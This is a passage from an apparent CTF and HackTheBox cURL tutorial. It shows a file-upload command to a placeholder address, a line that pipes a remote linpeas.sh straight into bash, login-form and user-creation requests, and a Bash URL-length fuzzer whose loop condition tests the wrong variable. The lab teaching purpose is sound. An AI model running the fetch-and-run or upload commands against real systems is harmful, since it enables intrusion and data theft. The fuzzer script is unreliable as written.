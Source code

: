 ``$ curl -F ‘data=@path/to/local/file’ UPLOAD_ADDRESS`


## Hacking with cURL
Now that we have covered the basic syntax and use cases, here are some practical hacking applications that are very helpful on Hackthebox or CTF boxes.

#### Using cURL to pipe a remote scipt (linpeas.sh) directly to bash:
```Bash
$ curl -sSk "http://10.10.10.10/linpeas.sh" | bash
```

#### Attacking a Login Form with cURL
```Bash
$ curl --data "email=test@test.com&password=test" http://10.10.10.10/login.php
```

#### Creating new users with cURL
```Bash
$ curl --data "name=test&email=test@test.com&password=test" http://10.10.10.10/newuser.php
```

#### Fuzzing Web Servers with cURL
Often we performing an assessment against a webserver, we will attempt to trigger error conditions which will provide some deeper insights into the underlying processes and software. cURL can be a powerful fuzzing tool for generating these edge case error messages.

#### Fuzzing with URI length / GET parameter length limits with cURL

The following script can be used to fuzz a webserver with a long URL track the changes in output and write the output to a file.
It is meant to be a basic scaffold for you to build a fit for purpose fuzzer using cURL and Bash.
You can modify the url to either fuzz a URI or a GET parameter.

Here is the bash shell script:
```Bash
#!/bin/bash
echo "args: <URL> <Start Length #> <End Length #> <Output Filepath>"
echo "Length Lines Words Bytes Filename"
echo "---------------------------------"
for ((i = $2; x <= $3; i++))
do
        fuzz=""
        for ((x = 1; x <= $i; x++))
        do
                fuzz+="A"
        done
        #echo "COUNT: $i $fuzz"
        #echo "${1}${fuzz}"
        echo "${i}" | { tr -d '\n' ; curl "${1}${fuzz}" -o ${4} 2>/dev/null | wc ${4}; }
done
```
